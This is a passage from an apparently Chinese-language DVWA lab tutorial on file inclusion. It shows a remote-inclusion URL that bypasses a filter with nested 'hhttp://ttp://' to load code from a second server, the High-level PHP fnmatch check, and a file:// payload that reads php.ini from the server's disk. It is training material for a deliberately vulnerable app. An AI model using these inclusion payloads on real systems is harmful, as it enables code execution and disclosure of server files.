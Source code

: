 **远程文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=hhttp://ttp://<服务器B IP地址!!!>/phpinfo.txt` 远程执行命令成功

![image](../../../assets/img/安全/实验/dvwa/dvwa22.png)

经过编码后的 url 不能绕过替换规则，因为解码是在浏览器端完成的，发送过去的 page 参数依然是http://<IP地址!!!>/phpinfo.txt，因此读取失败。

### High
**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}

?>
```
可以看到，High 级别的代码使用了 fnmatch 函数检查 page 参数，要求 page 参数的开头必须是 file，服务器才会去包含相应的文件。

**相关函数**
- **fnmatch(pattern,string,flags)**

	函数根据指定的模式来匹配文件名或字符串。

	此函数对于文件名尤其有用，但也可以用于普通的字符串。普通用户可能习惯于 shell 模式或者至少其中最简单的形式 '?' 和 '*' 通配符，因此使用 fnmatch() 来代替 ereg() 或者 preg_match() 来进行前端搜索表达式输入对于非程序员用户更加方便。

注：fnmatch 函数适用于 PHP >= 4.3.0，因此 php 版本高于这个才能利用，否则会出现打不开 high 等级页面。

**漏洞利用**

High 级别的代码规定只能包含 file 开头的文件，看似安全，不幸的是我们依然可以利用 file 协议绕过防护策略。file 协议其实我们并不陌生，当我们用浏览器打开一个本地文件时，用的就是 file 协议。

构造 url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file://C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`
